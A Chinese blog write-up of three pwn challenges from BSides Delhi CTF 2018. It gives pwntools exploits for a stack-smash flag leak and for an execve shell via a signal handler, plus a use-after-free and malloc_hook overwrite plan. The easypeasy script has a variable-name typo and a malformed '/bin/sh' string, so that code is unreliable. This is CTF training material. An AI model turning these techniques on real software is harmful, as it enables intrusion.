








<!--yml
category: 未分类
date: 2022-04-26 14:35:01
-->

# BSides Delhi CTF 2018部分pwn题题解_Peanuts_CTF的博客-CSDN博客

> 来源：[https://blog.csdn.net/w12315q/article/details/83684017](https://blog.csdn.net/w12315q/article/details/83684017)

> *本文后部分首发于先知社区*

这个是一个比较基础的国际赛，做完之后的感觉就是其中有些题目很有价值，可以顺便补充一些信号机制、uaf使用的知识。

# canary

这个题目比较简单，就是一个普通的stack smash并没有什么特别的，这里直接上解题思路了

**解题思路**

因为开启了canary，而且flag文件是加载到了bss段之中，所以可以利用_*stack*chk_failed函数进行一个flag的泄漏，泄漏方式就是覆盖arg参数，这个函数就会打印出我们想要的flag了（源码的分析可以参考ctfwiki，这里我就不做过多的分析了）

**exp:**

```
 from pwn import*
    p = process('./canary')
    context.log_level="debug"
    flag = 0x06010A0
    p.recv()
    payload = 'a'*0x178 + p64(flag)
    p.sendline(payload)
    p.interactive() 
```

# easypeasy

这是一道利用linux下信号机制的题目

linux下信号机制记录

```
SIGHUP 1 A 终端挂起或者控制进程终止
SIGINT 2 A 键盘中断（如break键被按下）
SIGQUIT 3 C 键盘的退出键被按下
SIGILL 4 C 非法指令
SIGABRT 6 C 由abort(3)发出的退出指令
SIGFPE 8 C 浮点异常
SIGKILL 9 AEF Kill信号
SIGSEGV 11 C 无效的内存引用
SIGPIPE 13 A 管道破裂: 写一个没有读端口的管道
SIGALRM 14 A 由alarm(2)发出的信号
SIGTERM 15 A 终止信号
SIGUSR1 30,10,16 A 用户自定义信号1
SIGUSR2 31,12,17 A 用户自定义信号2
SIGCHLD 20,17,18 B 子进程结束信号
SIGCONT 19,18,25 进程继续（曾被停止的进程）
SIGSTOP 17,19,23 DEF 终止进程
SIGTSTP 18,20,24 D 控制终端（tty）上按下停止键
SIGTTIN 21,21,26 D 后台进程企图从控制终端读
SIGTTOU 22,22,27 D 后台进程企图从控制终端写
```

这道题要用的就是sigalrm这个机制

**signal函数**

singal()函数声明 void (signal(int sig, void (func)(int)))(int) ，第一个参数为要处理的信号，第二个参数为处理方法

### 程序功能分析

**main函数**



其中有一个alarm，设置的时间是30秒，这在后面会用到 

**child函数**

****

这个函数的第一步先建立啦一个signal信号函数，在有14信号的时候就会对其进行返回，并且调用hander函数。然后在循环中进行赋值，赋给的值会放在bbs段上，如果满足validate*syscall*obj(v0）就会调用raise函数给程序返回一个14的信号，从而调用signal函数。接下来我们看一下：validate*syscall*obj(v0）函数和hander函数 

**validate*syscall*obj函数**

****

可以大概看一眼程序，发现当我们输入的eax值为： 1，2，3，60时就会退出循环，然后进行一个raise函数

**hander函数**

****

有一个看起来像是系统调用的东西再点进去看看 这里会把我们的输入当作参数分别放进寄存器当中，然后执行一个系统调用，这里我们可以利用这个特点，向rax写入59（sys_execve函数的系统调用值），然后布局一下参数，就可以执行我们的getshell函数啦。

**解题思路**

```
一、先布局bss段的参数，第一个为59（sys_execve函数的系统调用值），第一个参数就可以是我们'/bin/sh'这个参数的地址
二、然后等30秒，就会执行alarm然后调用hander函数接着坐等shell啦。
```

### exp：

```
from pwn import *
 context.log_level = 'debug'
 P = process("./easypeasy")
 def set_registers(rax, rdi, rsi,    rdx, rcx, r8, r9):
     p.sendafter('RAX: ', str(rax) + '\n')
     p.sendafter('RDI: ', str(rdi) + '\n')
     p.sendafter('RSI: ', str(rsi) + '\n')
     p.sendafter('RDX: ', str(rdx) + '\n')
     p.sendafter('RCX: ', str(rcx) + '\n')
     p.sendafter('R8: ', str(r8) + '\n')
     p.sendafter('R9: ', str(r9) + '\n')

set_registers(59, 
0x6010A0 + 0x20,0x0,0x0, u64('/bin/   sh\x00'),0,0)
```

## data_bank

题目的名字叫做data*bank，是一个比较简单的国际赛的题但是利用这个题可以复习一下uaf关于泄漏地址和改写malloc*hook的知识。

### 程序功能分析

这里没有对程序进行去符号的处理还是很舒服的 可以大概知道，有add,edit,delete等常规的操作下面进行一一进行分析

**add函数**

****

这里是让我们自己输入index（顺序序列），然后自己决定大小，然后对我们的输入的size有一个check，然后是输入数据，其中get_inp就只是一个自定义的输入函数，其中没有什么特别这里就不截图出来了

**edit函数**

****

这是一个对堆内容在次进行编辑的一个函数，其中可能存在uaf的漏洞

**delete函数**

****

是一个正常的删除函数，有一个对Double free的检查所以并没有办法进行Double free但是可以看见也没有对index的指针进行清空所以存在uaf的漏洞。

**view函数**

****

循环堆进行输入

**exit函数**

正常的退出函数

**保护查看**

****

能开的保护基本是全上了

### 思路分析

先讲几个主要的保护绕过

**pie绕过**

首先我们申请一个small bin大小的堆块，然后free掉，其会自己加入至unsortedbin中，fd*next和fd*back都会指向libc，这个时候我们再申请一个合适大小的堆块再view，就可以打印出地址了。（刚入啃的小白可以自己gdb调试一下）

**RELRO绕过**

这个保护导致我们不能成功对got表进行一个写的操作，但是我们可以利用对malloc*hook进行一个程序流的控制(ps:malloc*hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写 malloc_hook 来 getshell）

**完整的利用过程**

```
一、先进行信息泄漏，这个题目比较坑需要申请两个samll bin然后free掉才能有上图的效果，但是不论如何可以泄漏就可以啦
二、寻找到malloc_hook位置之上可以利用的一个位置，需要绕过fastbin对size的一个检查，读者们可以参考一下2017-0ctf-babyheap对这个的绕过，这里我就不多写了。
三、OneGadget的写入
```

**总结**

国际赛里还是有很多对入坑不久的人很友善的比赛的，不是所有比赛都像hitcon，secon一样的。。